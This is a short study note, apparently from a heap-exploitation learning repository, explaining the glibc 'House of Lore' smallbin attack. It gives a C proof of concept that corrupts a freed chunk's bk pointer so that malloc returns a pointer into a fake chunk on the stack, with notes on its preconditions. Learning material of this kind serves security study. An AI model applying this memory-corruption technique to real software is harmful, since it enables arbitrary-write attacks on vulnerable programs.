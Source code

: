 # House of Lore
> LongChampion, 18/03/2020

This attack ideal is similar to *fastbin_dup_into_stack*, but it is used for smallbin.
```
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    void *Victim = malloc(0x100 - 8);
    void *Barier = malloc(0x100 - 8);
    struct Chunk Fake, NextFake;

    free(Victim);
    struct Chunk *Real = (struct Chunk *) (Victim - 0x10);

    void *Large = malloc(0x200 - 8);

    Real->bk = &Fake;
    Fake.fd = Real;
    Fake.bk = &NextFake;
    NextFake.fd = &Fake;

    Victim = malloc(0x100 - 8);
    void *STACK = malloc(0x100 - 8);
}
```
There are some note:
- Chunk `Barier` is used to prevent `Victim` become the top chunk (which we can't free)
- After be freed, `Victim` is located in unsorted_bin, so we call `malloc` with request size larger than size of `Victim` to push `Victim` into smallbin.
- **All modify at `Victim` must happen after we pushed it into smallbin.**
- Chunk `Fake` and chunk `NextFake` can be located anywhere, it doens't need to be adjacent or have real size same as `Victim`, but their address should be aligned as well.
- `STACK` will point to `Fake.fd`, not `Fake`.
- This attack it NOT work against largebin because of size checking.

